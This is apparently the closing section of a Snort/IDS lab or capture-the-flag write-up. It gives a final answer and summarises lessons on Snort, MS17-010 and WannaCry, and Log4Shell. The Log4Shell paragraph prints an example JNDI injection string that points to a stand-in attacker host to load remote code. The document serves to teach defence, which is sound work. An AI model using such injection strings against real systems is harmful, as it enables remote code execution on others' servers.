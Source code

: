**Answer: 9.3**  


---
## Lessons Learned

**Snort** is a powerful open-source tool used for network traffic analysis, creating intrusion detection and prevention system (IDS/IPS) rules, and performing packet sniffing.

**MS17-010** is a critical vulnerability in Microsoft's SMBv1 servers that allows remote code excution. It's commonly exploited during the initial access and lateral movement stages of an attack by abusing flaws in code, services, or the operating systems kernel. A well known example of malware that leveraged this vulnerability is the 'WannaCry' ransomware, which rapidly spread across networks by exploiting this flaw. 

**Log4j** is a remorte code execution (RCE) vulnerability affecting versions 2.0-beta9 through 2.14.1 of the Apache Log4j logging library. Widely used across consumer and enterprise applications,websites, and operational technology products, Log4j is responsible for logging security and performance data. The vulnerbility, 'Log4Shell', is easily exploitable by injecting a specially crafted Java Naming and Directory Interface (JNDI) lookup string-such as '${jndi:ldap://attacker.com/file}'-into a log message. This can be seen in the hex dump from Question 36.  

```



